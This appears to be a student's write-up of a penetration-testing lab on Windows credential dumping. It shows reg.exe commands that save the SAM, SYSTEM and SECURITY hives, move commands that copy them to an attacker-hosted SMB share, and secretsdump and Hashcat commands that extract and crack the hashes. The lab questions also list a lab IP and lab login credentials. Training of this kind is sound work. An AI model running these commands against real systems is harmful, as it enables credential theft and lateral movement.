### Registry hives

There are three registry hives we can copy if we have local administrative access to a target system, each serving a specific purpose when it comes to dumping and cracking password hashes. A brief description of each is provided in the table below:


We can back up these hives using the reg.exe utility.
**Using reg.exe to copy registry hives**

By launching cmd.exe with administrative privileges, we can use reg.exe to save copies of the registry hives. Run the following commands:
```cmd
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save```
```

```cmd
C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
```

```cmd
C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```

If we're only interested in dumping the hashes of local users, we need only HKLM\SAM and HKLM\SYSTEM. However, it's often useful to save HKLM\SECURITY as well, since it can contain cached domain user credentials on domain-joined systems, along with other valuable data. Once these hives are saved offline, we can use various methods to transfer them to our attack host. In this case, we'll use Impacket's smbserver in combination with some basic CMD commands to move the hive copies to a share hosted on our attacker machine.
Creating a share with smbserver

To create the share, we simply run smbserver.py -smb2support, specify a name for the share (e.g., CompData), and point to the local directory on our attack host where the hive copies will be stored (e.g., /home/ltnbob/Documents). The -smb2support flag ensures compatibility with newer versions of SMB. If we do not include this flag, newer Windows systems may fail to connect to the share, as SMBv1 is disabled by default due to numerous severe vulnerabilities and publicly available exploits.
```sh
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

Once the share is running on our attack host, we can use the move command on the Windows target to transfer the hive copies to the share.
**Moving hive copies to share**

```cmd
C:\> move sam.save \\10.10.15.16\CompData
C:\> move security.save \\10.10.15.16\CompData
C:\> move system.save \\10.10.15.16\CompData
```
We can then confirm that our hive copies were successfully moved to the share by navigating to the shared directory on our attack host and using ls to list the files.

### Dumping hashes with secretsdump
```sh
locate secretsdump
```

```sh
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Here we see that secretsdump successfully dumped the local SAM hashes, along with data from hklm\security, including cached domain logon information and LSA secrets such as the machine and user keys for DPAPI.

Notice that the first step secretsdump performs is retrieving the system bootkey before proceeding to dump the local SAM hashes. This is necessary because the bootkey is used to encrypt and decrypt the SAM database. Without it, the hashes cannot be decrypted — which is why having copies of the relevant registry hives, as discussed earlier, is crucial.

Moving on, notice the following line:

**Dumping local SAM hashes (uid:rid:lmhash:nthash)**

This tells us how to interpret the output and which hashes we can attempt to crack. Most modern Windows operating systems store passwords as NT hashes. Older systems (such as those prior to Windows Vista and Windows Server 2008) may store passwords as LM hashes, which are weaker and easier to crack. Therefore, LM hashes are useful if the target is running an older version of Windows.

With this in mind, we can copy the NT hashes associated with each user account into a text file and begin cracking passwords. It is helpful to note which hash corresponds to which user to keep track of the results.

### Cracking hashes with Hashcat

Once we have the hashes, we can begin cracking them using Hashcat. Hashcat supports a wide range of hashing algorithms, as outlined on its website. In this module, we will focus on using Hashcat for specific use cases. This approach will help build your understanding of how and when to use Hashcat effectively, and how to refer to its documentation to identify the appropriate mode and options based on the type of hashes you've captured.

As mentioned earlier, we can populate a text file with the NT hashes we were able to dump.


Now that the NT hashes are in our text file (hashestocrack.txt), we can use Hashcat to crack them.

#### Running Hashcat against NT hashes

Hashcat supports many different modes, and selecting the right one depends largely on the type of attack and the specific hash type we want to crack. Covering all available modes is beyond the scope of this module, so we will focus on using the -m option to specify hash type 1000, which corresponds to NT hashes (also known as NTLM-based hashes). For a full list of supported hash types and their associated mode numbers, we can refer to Hashcat's wiki page or consult the man page.

We can see from the output that Hashcat was successful in cracking three of the hashes. Having these passwords can be useful in many ways. For example, we could attempt to use the cracked credentials to access other systems on the network. It is very common for users to reuse passwords across different work and personal accounts. Understanding and applying this technique can be valuable during assessments. We will benefit from it anytime we encounter a vulnerable Windows system and gain administrative rights to dump the SAM database.

Keep in mind that this is a well-known technique, and administrators may have implemented safeguards to detect or prevent it. Several detection and mitigation strategies are documented within the MITRE ATT&CK framework.

### DCC2 hashes
As mentioned previously, hklm\security contains cached domain logon information, specifically in the form of DCC2 hashes. These are local, hashed copies of network credential hashes. An example is:


This type of hash is much more difficult to crack than an NT hash, as it uses PBKDF2. Additionally, it cannot be used for lateral movement with techniques like Pass-the-Hash (which we will cover later). The Hashcat mode for cracking DCC2 hashes is 2100.



Note the cracking speed of 5536 H/s. On the same machine, NTLM hashes can be cracked at 4605.4 kH/s. This means that cracking DCC2 hashes is approximately 800 times slower. The exact numbers will depend heavily on the hardware available, of course, but the takeaway is that strong passwords are often uncrackable within typical penetration testing timeframes.

### DPAPI

In addition to the DCC2 hashes, we previously saw that the machine and user keys for DPAPI were also dumped from hklm\security. The Data Protection Application Programming Interface, or DPAPI, is a set of APIs in Windows operating systems used to encrypt and decrypt data blobs on a per-user basis. These blobs are utilized by various Windows OS features and third-party applications. Below are just a few examples of applications that use DPAPI and how they use it:


DPAPI encrypted credentials can be decrypted manually with tools like Impacket's dpapi, mimikatz, or remotely with DonPAPI.



### Remote dumping & LSA secrets considerations

With access to credentials that have local administrator privileges, it is also possible to target LSA secrets over the network. This may allow us to extract credentials from running services, scheduled tasks, or applications that store passwords using LSA secrets.
**Dumping LSA secrets remotely**


**Dumping SAM Remotely**

Similarly, we can use netexec to dump hashes from the SAM database remotely.



### Q.1 Where is the SAM database located in the Windows registry? (Format: ****\***)

Ans: hklm\sam

### Q.2 Apply the concepts taught in this section to obtain the password to the ITbackdoor user account on the target. Submit the clear-text password as the answer.

RDP to 10.129.202.137 (ACADEMY-PWATTACKS-WIN10SAM), with user "Bob" and password "HTB_@cademy_stdnt!" 














### Q.3 Apply the concepts taught in this section to obtain the password to the ITbackdoor user account on the target. Submit the clear-text password as the answer.

